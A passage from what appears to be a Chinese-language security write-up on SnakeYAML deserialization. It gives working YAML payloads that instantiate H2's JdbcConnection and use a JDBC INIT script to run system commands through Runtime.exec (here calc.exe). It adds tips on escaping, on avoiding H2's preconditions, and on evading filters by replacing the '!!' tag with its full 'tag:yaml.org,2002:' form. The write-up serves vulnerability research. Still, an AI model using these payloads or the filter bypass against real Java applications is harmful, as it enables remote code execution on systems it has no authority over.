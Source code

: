 上述转为yaml格式应该是：

```yaml
!!org.h2.jdbc.JdbcConnection
- jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"calc.exe\")\\; }$$\\;CALL EXEC ()\\;
- {}
- a
- b
- false
```

而且H2 Database Web Console的未授权访问漏洞导致的JDBC注入 CVE-2022-23221的修复方式之一就是：在H2>=1.4.198中把构造函数的最后一个参数改为true（此处略过调试）

https://github.com/vulhub/vulhub/blob/master/h2database/h2-console-unacc/README.zh-cn.md

因为我们能直接控制构造函数的所有参数，所以能忽略h2执行命令所需的条件：必须知道数据库名或开启-ifNotExists

另外，我们观察到，第一个参数URL中，由于要在INIT中执行多个SQL语句，所以我使用了反斜线对分号进行转义`\;`，但又由于整个URL位于YAML中的字符串中，所以还要再次对反斜线进行转义`\\;`，整个POC的可读性大大降低。

> 网上有一些文章说JDBC的INIT中不支持执行多个SQL语句，其实原因就是没有转义分号导致的，实际上这里并没有限制。

其实JdbcConnection构造函数的第二个参数是Properties，我们完全可以将INIT这种属性放到这里面。

![image-20250417155614271](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250417155614271.png)

以减少URL参数中的转义，然后将YAML修改成我们更熟悉的样式：

>YAML 中的 `|` 是一种 **多行文本（Literal Block Scalar）标记符**，用于保留换行并原样呈现多行字符串的内容

```yaml
!!org.h2.jdbc.JdbcConnection
- jdbc:h2:mem:test
- MODE: MSSQLServer
  INIT: |
    drop alias if exists exec;
    CREATE ALIAS EXEC AS $$void exec() throws Exception {Runtime.getRuntime().exec("calc.exe");}$$;
    CALL EXEC ();
- a
- b
- false
```

![1c4c466d-6be0-433f-b059-d5ee65bd4c09.5e0d5f5f0728](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/1c4c466d-6be0-433f-b059-d5ee65bd4c09.5e0d5f5f0728.png)

注意`-`的作用噢



## 绕过

`!!`可以用TAG来绕过

Tag的声明位于org.yaml.snakeyaml.nodes.Tags

### `!!`换为`tag:yaml.org,2002:`
